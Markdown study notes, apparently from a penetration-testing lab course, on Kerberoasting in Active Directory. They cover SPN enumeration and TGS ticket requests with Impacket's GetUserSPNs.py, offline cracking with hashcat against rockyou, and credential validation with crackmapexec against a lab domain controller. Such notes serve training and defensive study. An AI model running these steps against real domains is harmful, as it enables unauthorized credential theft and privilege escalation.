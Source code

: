 ## Overview
Lateral movement/ PrivEsc technique used in AD.
Targets [Service Principal names](https://learn.microsoft.com/en-us/windows/win32/ad/service-principal-names). 
	Unique Identifiers that Kerberos uses to map a service instance to a service account. 
	Domain accounts of used to overcome network limitations. 
	Any account can request any Kerberos ticket.
Need a password or NTLM hash, shell in a domain user or a SYSTEM level access on a domain joined host.
Service accounts often added to privileged groups such as domain admins. 
Service accounts often give week/ reused passwords to simplify administration. 

### How the Attack Works 
#### Where
- From a non-domain joined Linux host using valid domain user credentials.
- From a domain-joined Linux host as root after retrieving the keytab file.
- From a domain-joined Windows host authenticated as a domain user.
- From a domain-joined Windows host with a shell in the context of a domain account.
- As SYSTEM on a domain-joined Windows host.
- From a non-domain joined Windows host using [runas](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)) /netonly.
#### With 
- Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts.
## From Linux
#### GetUsersSPNs
##### Getting a Ticket
List Service Accounts
```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```
Requesting all TGS tickets
```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```
Requesting a Single Ticket
```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```
##### Saving a Ticket 
```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```
##### Crack the Ticket 
```shell
 hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```
##### Test the Authentication 
```shell
sudo crackmapexec smb 172.16.5.5 -u sqldev -p database!
```
##### Can list what groups the user is in with 
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/<user>
```
Group is after the CN= 